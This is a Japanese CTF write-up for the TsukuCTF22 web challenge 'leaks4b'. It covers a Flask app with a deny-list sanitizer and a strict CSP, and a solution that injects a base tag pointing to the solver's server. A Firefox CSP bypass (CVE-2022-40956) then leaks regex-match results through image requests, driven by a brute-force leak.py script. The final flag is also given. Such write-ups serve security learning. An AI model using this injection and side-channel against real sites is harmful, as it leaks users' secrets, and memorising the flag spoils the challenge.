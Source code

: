 # leaks4b

## 問題文
ケーキをあいまい検索できます。 どれを注文するか迷ってしまいます！！  
`※フラグの形式はTsukuCTF22{[a-z]{7}}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。配布されているソースは厳密なものではありません。フラグの提出回数は3回までとなっています。`  
[http://133.130.96.134:31416](http://133.130.96.134:31416/)  

[leaks4b.zip](files/leaks4b.zip)  

## 難易度
**hard**  

## 作問にあたって
趣味CTFということもあり、キモイ問題を出しても良いでしょうということで1day問を出しました。  
Mozillaに早めに報告してしまったので、0day問ではなくなってしまいました(CVE-2022-40956)。  
CSSiやReDoSを用いたリークなど非想定解が思い浮かびまくり、修正しました。  
もし、Firefoxの1day以外で解かれた方がいましたらWriteupなどで教えてくれると嬉しいです。  
ちなみにMiscのsoderはこの非想定解から生まれた問題です。  
そして4bは嘘です。  

## 解法
URLとソースが渡される。  
アクセスするとケーキを検索できるページのようだ。  
![site1.png](images/site1.png)  
クローラが設置されており、パティシエが閲覧してくれるようだ。  
![site2.png](images/site2.png)  
ひとまず配布されたソースのapp.pyを見ると、以下のようであった。  
```python
~~~
def cssi_sanitizer(text):
    # XSS could be mitigated by CSP, but CSSi and ReDoS are dangerous.
    deny_list = ["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]
    text = text.lower()
    if any([hack in text for hack in deny_list]):
        return "ハッキングケーキ"
    return text

menu = ["チョコレートケーキ, チョコケーキ, chocolatecake", "チーズケーキ, cheesecake", "バナナケーキ, bananacake"]

~~~
@app.route("/")
def top():
    cake = request.args.get("cake", "チョコレートケーキ")
    cake = cssi_sanitizer(cake[:100])
    flag = request.cookies.get("flag")
    # It is not expected to steal the cookie.
    # This is "leaks4b."
    if (flag == FLAG) and (re.findall(cake, FLAG)):
        img = "flag0.jpg"
    elif re.findall(cake, menu[0]):
        img = f"cake0.jpg"
    elif re.findall(cake, menu[1]):
        img = f"cake1.jpg"
    elif re.findall(cake, menu[2]):
        img = f"cake2.jpg"
    else:
        img = f"cake3.jpg"
    nonce = secrets.token_urlsafe(16)
    return f"""<!doctype html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">
    <script src="https://cdn.tailwindcss.com" nonce="{nonce}"></script>
    <title>Leaks4b</title>
</head>
~~~
"""
~~~
@app.route("/order", methods=["POST"])
def order_post():
    url = request.form.get("url", "____")
    if not url.startswith("http"):
        return "[ERROR] http and https schemes are allowed."
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch()
            context = browser.new_context()
            context.add_cookies([{"name": "flag", "value": FLAG, "httpOnly": True, "url": URL}])
            page = context.new_page()
            page.goto(url, timeout=10000)
            browser.close()
    except Exception as e:
        print(e)
        pass
    return "I received your cake order. Have the flag and wait for your cake!"
~~~
```
`?cake=`に入力した文字を正規表現としてケーキを検索している。  
フラグも検索できるが、cookieがフラグ文字列と一致している場合にのみ検索可能なようで、クローラ以外には不可能と考えられる。  
フラグが検索できた場合に表示される画像は`flag0.jpg`であり、ケーキは`cake0~3.jpg`である。  
この画像にフラグが書かれているのではと予測し、アクセスするが以下の画像が表示されるだけであった。  
![flag0.jpg](images/flag0.jpg)  
一見すると`?cake=`で任意のHTMLタグを差し込め、XSSによってクローラのcookieを取得できそうだがhttpOnlyであるようだ。  
さらにcssi_sanitizerと、とんでもなく厳しいCSPにより守られており、XSSは愚かCSSiも難しい。  
何とかしてクローラのフラグ検索結果の成否をリークしたい。  
ここでユーザ由来の正規表現を使っているため、ReDoSの可能性もあることに気づく。  
幸いCSPにimgの制限はないため、自身のドメインをsrcに設定したimgタグを挿入し、アクセスの有無を確認することでReDoSの応答遅延によってフラグをリークする手法が思い浮かぶ。  
しかしcssi_sanitizerや文字数制限が邪魔をして、これも難しい。  
ここで試しによくある手法であるbaseタグを挿入すると、CSPでnoneであるはずなのになぜかimgのsrcをbaseのhrefへ問い合わせることがわかる。  
これによって、CSPをバイパスしてimgの相対パスがリークできる。  
imgの画像ファイル名は検索結果によって異なるためクローラのフラグ検索結果のオラクルになりえる。  
あとはフラグに一致する正規表現とbaseタグをcssi_sanitizerを躱してクエリに設定してやればよい。  
フラグの`TsukuCTF22{`リークするクエリは以下になる。  
```
http://133.130.96.134:31416/?cake=.suku...22.|%3Cbase%20href=//[自身のサーバ]%3E
```
baseタグは`|`で設定し、特殊文字と小文字化に注意する(フラグの`{`などは`.`を利用して任意の一文字として埋めてやればよい)。  
リークが行えることがわかったら、`/static/img/flag0.jpg`が来るまで小文字すべてをクローラへ投げてやり、ヒットしたらフラグ文字列に追加し次の文字を探せばよい。  
以下のleak.pyで行う。  
```python
import requests

TARGET_URL = "http://133.130.96.134:31416"
LEAK_URL = "http://[自身のサーバ]".replace("http:", "").replace("https:", "")

FLAG = ".suku...22."

for c in "abcdefghijklmnopqrstuvwxyz.":
    res = requests.post(f"{TARGET_URL}/order", data={"url": f"{TARGET_URL}/?cake={FLAG}{c}|%3Cbase%20href={LEAK_URL}%3E"})
    print(res.text)
```
実行し、手動でリークした文字を追加していくとflagが得られた(自動化もできるが手動でも可能なようなflagになっている)。  

## TsukuCTF22{cakeuma}
